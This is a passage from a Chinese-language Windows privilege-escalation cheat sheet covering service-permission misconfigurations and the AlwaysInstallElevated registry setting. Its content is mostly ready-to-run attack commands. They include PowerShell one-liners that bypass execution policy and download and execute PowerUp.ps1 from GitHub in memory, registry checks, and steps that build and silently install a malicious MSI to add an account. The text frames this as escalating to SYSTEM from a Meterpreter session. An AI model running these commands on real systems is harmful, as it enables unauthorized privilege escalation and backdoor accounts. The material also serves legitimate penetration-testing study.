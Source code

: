 ### [](#%E7%B3%BB%E7%BB%9F%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF)系统服务权限配置错误

#### [](#powerup)powerup

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -Command "&{Import-Module .\PowerUP.ps1;Invoke-AllChecks}"<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Invoke-AllChecks"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200213110922.png-water_print](assets/1699410292-5737ba33d8a61fa1694477044136e2a2 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200213110922.png-water_print")

#### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8)metasploit 下的利用

对应模块 `service_permissions`。

### [](#%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%94%AE-alwaysinstallelevated)注册表键 AlwaysInstallElevated

`AlwaysInstallElevated` 是一个策略设置。微软允许非授权用户以 `SYSTEM` 权限运行安装文件 (MSI)，如果用户启用此策略设置，那么黑客利用恶意的 `MSI` 文件就可以进行管理员权限的提升。假设我们拿到目标主机的 `Meterpreter` 会话后并没能通过一些常规方式取得 `SYSTEM` 权限，那么 `AlwaysInstallElevated` 提权可以给我们带来另一条思路。

-   手动检测注册表：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>``` |

如果值均为 `1`，说明存在风险

-   PowerUp 脚本

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Get-RegistryAlwaysInstallElevated"<br>``` |

添加账户

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Write-UserAddMSI<br>``` |

以普通用户运行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>msiexec /q /i UserAdd.smi<br>``` |
